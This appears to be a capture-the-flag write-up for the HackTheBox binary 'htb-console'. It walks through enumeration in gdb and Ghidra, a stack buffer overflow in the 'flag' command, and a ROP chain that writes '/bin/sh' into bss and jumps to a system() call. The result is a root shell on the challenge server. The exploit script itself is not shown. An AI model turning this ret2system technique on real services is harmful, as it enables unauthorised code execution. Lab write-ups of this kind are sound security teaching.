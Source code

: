 # htb-console

## Enumeration

Start with some basic file enumeration

```s
$ file htb-console 
htb-console: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=575e4055094a7f059c67032dd049e4fdbb171266, for GNU/Linux 3.2.0, stripped
$ pwn checksec htb-console 
[*] 'htb-console'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Looks like the application is stripped so we'll have to do some symbol discovery. The NX bit is also enabled so if we want code execution we'll have to perform ret2libc.

Lets discover the main function

```s
$ gdb -q htb-console                                
GEF for linux ready, type `gef' to start, `gef config` to configure
90 commands loaded and 5 functions added for GDB 13.1 in 0.00ms using Python engine 3.11
Reading symbols from htb-console...
(No debugging symbols found in htb-console)
gef➤  info file
Symbols from "htb-console".
Local exec file:
        `htb-console`, file type elf64-x86-64.
        Entry point: 0x4010b0
...<snip>...
gef➤  x/15i 0x4010b0
   0x4010b0:    endbr64
   0x4010b4:    xor    ebp,ebp
   0x4010b6:    mov    r9,rdx
   0x4010b9:    pop    rsi
   0x4010ba:    mov    rdx,rsp
   0x4010bd:    and    rsp,0xfffffffffffffff0
   0x4010c1:    push   rax
   0x4010c2:    push   rsp
   0x4010c3:    mov    r8,0x401480
   0x4010ca:    mov    rcx,0x401410
   0x4010d1:    mov    rdi,0x401397
   0x4010d8:    call   QWORD PTR [rip+0x2f0a]        # 0x403fe8
   0x4010de:    hlt
   0x4010df:    nop
   0x4010e0:    endbr64
gef➤  x/15i 0x401397
   0x401397:    push   rbp
   0x401398:    mov    rbp,rsp
   0x40139b:    sub    rsp,0x10
   0x40139f:    mov    eax,0x0
   0x4013a4:    call   0x401196
   0x4013a9:    lea    rdi,[rip+0xd78]        # 0x402128
   0x4013b0:    call   0x401030 <puts@plt>
   0x4013b5:    lea    rdi,[rip+0xd92]        # 0x40214e
   0x4013bc:    mov    eax,0x0
   0x4013c1:    call   0x401050 <printf@plt>
   0x4013c6:    mov    rdx,QWORD PTR [rip+0x2cc3]        # 0x404090 <stdin>
   0x4013cd:    lea    rax,[rbp-0x10]
   0x4013d1:    mov    esi,0x10
   0x4013d6:    mov    rdi,rax
   0x4013d9:    call   0x401080 <fgets@plt>
```

Looks like `main` starts at `0x401397`. Lets view this in Ghidra:

```c

void main(void)

{
  char cmd [16];
  
  nan_3();
  puts("Welcome HTB Console Version 0.1 Beta.");
  do {
    printf(">> ");
    fgets(cmd,16,stdin);
    execute_cmd(cmd);
    memset(cmd,0,0x10);
  } while( true );
}


```

Looks like the application takes some user input and passes it into `execute_cmd`. Lets view this function:

```c

void execute_cmd(char *param_1)

{
  int iVar1;
  char local_18 [16];
  
  iVar1 = strcmp(param_1,"id\n");
  if (iVar1 == 0) {
    puts("guest(1337) guest(1337) HTB(31337)");
  }
  else {
    iVar1 = strcmp(param_1,"dir\n");
    if (iVar1 == 0) {
      puts("/home/HTB");
    }
    else {
      iVar1 = strcmp(param_1,"flag\n");
      if (iVar1 == 0) {
        printf("Enter flag: ");
        fgets(local_18,48,stdin);
        puts("Whoops, wrong flag!");
      }
      else {
        iVar1 = strcmp(param_1,"hof\n");
        if (iVar1 == 0) {
          puts("Register yourself for HTB Hall of Fame!");
          printf("Enter your name: ");
          fgets(&hof_buf,10,stdin);
          puts("See you on HoF soon! :)");
        }
        else {
          iVar1 = strcmp(param_1,"ls\n");
          if (iVar1 == 0) {
            puts("- Boxes");
            puts("- Challenges");
            puts("- Endgames");
            puts("- Fortress");
            puts("- Battlegrounds");
          }
          else {
            iVar1 = strcmp(param_1,"date\n");
            if (iVar1 == 0) {
              system("date");
            }
            else {
              puts("Unrecognized command.");
            }
          }
        }
      }
    }
  }
  return;
}


```

Looks like there is a buffer overflow in the `fgets` call when we enter `flag`.

I initially thought that I had to perform a ret2libc. `system` is available in the GOT/PLT. However, there is a much simpler way to get code execution. There is already a call to `system` when we input the `date` command. With our buffer overflow we could directly jump to the address that calls `system`. Before we do that we'll need to pop the address of the string `/bin/sh`. This is tricky without knowing the version of libc this application is using. We could perform a ret2libc to perform a leak. Again, there is a much simpler solution. If we enter `hof`, we actually write 10 bytes to an address in the `bss` section. We can write `/bin/sh` to this address, pop the address into rdi, and then jump to `system`.

## Exploitation

First, we'll need to find the offset of the target buffer to the return address:

```s
gef➤  x/gx $rsp
0x7fffffffdc28: 0x6161616161616164
gef➤  pattern offset $rsp
[+] Searching for '$rsp'
[+] Found at offset 24 (little-endian search) likely
[+] Found at offset 17 (big-endian search
```

Next, we'll determine the address for everything. The address of the memory address where `/bin/sh` will be writtin is `0x4040b0`. The address of the `system` call is `0x401381`. Lastly, the address of the rop gadget for `pop rdi` is `0x401473`.

Putting all this together gets a shell

```s
$ ./exploit.py REMOTE
[+] Opening connection to 188.166.171.200 on port 32704: Done
[*] Switching to interactive mode
Whoops, wrong flag!
$ id
uid=0(root) gid=0(root) groups=0(root)
```